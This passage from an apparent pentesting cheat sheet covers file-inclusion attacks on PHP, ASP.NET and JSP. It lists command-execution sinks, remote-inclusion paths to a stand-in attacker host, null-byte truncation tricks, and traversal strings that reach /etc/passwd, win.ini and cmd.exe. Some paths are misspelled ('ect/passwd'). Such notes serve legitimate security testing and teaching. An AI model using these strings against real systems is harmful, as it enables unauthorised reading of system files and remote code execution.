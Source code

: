 <?php passthru(".."); ?> 
<?php system(".."); ?>

//Write files to /var/www/
fopen and fwrite
{% endhighlight %}

{% highlight C# %}
//ASP(.net)
//Dynamic with no code execution
Response.WriteFile()

//Dynamic code execution with web root access only.
Server.Execute()

//Defenses: Appending:
// ASP a "?" is possibly similar to "%00"  and will ignore everything after the question mark (query parameters)

//RFI .net on windowsusing SMB/CIFS
\\attacker\mal\malicious.txt

//System Commands
<% Shell("...") %>

//Write Files to C;\\inetpub\wwwroot
FileSystemObject
{% endhighlight %}

{% highlight java %}
//JSP
//Dynamic code execution with web root access only.
<jsp:include page="" />

//Defenses: Appending
//JSP a "?" is similar to "%00"  and will ignore everything after the question mark (query parameters)

//RFI java on windowsusing SMB/CIFS
\\attacker\mal\malicious.txt
{% endhighlight %}

**Linux Test Strings:**

{% highlight bash %}
http://website/?p=file%3a%2f%2f%2fetc%2fpasswd

/ect/passwd

 ../../../../../../../../../../../../../../ect/passwd 
 
  ../../../../../../../../../../../../../../ect/passwd%00
{% endhighlight %}

**Windows Test Strings:**

{% highlight bash %}
../../../winnt/system32.cmd.exe+/c+dir (not frequent)

%WINDIR%\win.ini 

C:\windows\win.ini

%SYSTEMDRIVE%\boot.ini //note only older versions of windows 
{% endhighlight %}
